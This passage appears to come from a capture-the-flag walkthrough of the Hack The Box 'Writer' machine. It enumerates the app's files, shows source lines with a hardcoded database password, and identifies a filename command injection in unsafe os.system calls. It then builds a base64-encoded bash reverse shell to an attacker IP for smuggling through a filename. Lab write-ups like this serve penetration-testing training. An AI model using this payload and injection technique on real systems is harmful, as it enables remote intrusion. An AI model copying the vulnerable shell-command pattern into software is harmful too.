 Thus, we found the webroot `/var/www/writer.htb/writer`. Now, check `writer.wsgi` file.

```
Welcome admin#!/usr/bin/python
import sys
import logging
import random
import os

# Define logging
logging.basicConfig(stream=sys.stderr)
sys.path.insert(0,&#34;/var/www/writer.htb/&#34;)

# Import the __init__.py from the app folder
from writer import app as application
application.secret_key = os.environ.get(&#34;SECRET_KEY&#34;, &#34;&#34;)
```

Hehe, we found the app folder which is a writer inside writer.htb. And writer.wsgi imports **init**.py. Get this file too. If you see it wisely, you can find there import os, which is a vector.

```python
$ cat __init__.py | grep os
import os
        connector = mysql.connector.connect(user='admin', password='ToughPasswordToCrack', host='127.0.0.1', database='writer')
#Define blog posts
@app.route('/blog/post/&lt;id&gt;', methods=['GET'])
def blog_post(id):
                path = os.path.join('/var/www/writer.htb/writer/static/img/', image.filename)
                    os.system("mv {} {}.jpg".format(local_filename, local_filename))
                        im.close()
                        os.system("mv /tmp/{} /var/www/writer.htb/writer/static/img/{}".format(image, image))
                        os.system("rm {}".format(image))
                path = os.path.join('/var/www/writer.htb/writer/static/img/', image.filename)
                    os.system("mv {} {}.jpg".format(local_filename, local_filename))
                        im.close()
                        os.system("mv /tmp/{} /var/www/writer.htb/writer/static/img/{}".format(image, image))
                        os.system("rm {}".format(image))
```

You can find command injection if you'll see the edit\_story function, that the command injection vulnerability is within filename itself, so we need to generate a filename that will contain bash reverse shell, but we can't just create a filename with bash in its name.Thus, we need to encode the payload with base64 encoding and then decode it and send it to bash on the server:

Create a file with extension jpg and the content of bash reverse shell:

```bash
$ echo -n '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.9/44444 0>&1"' | base64                                                                                                                                                     
L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuOS80NDQ0NCAwPiYxIg==
```
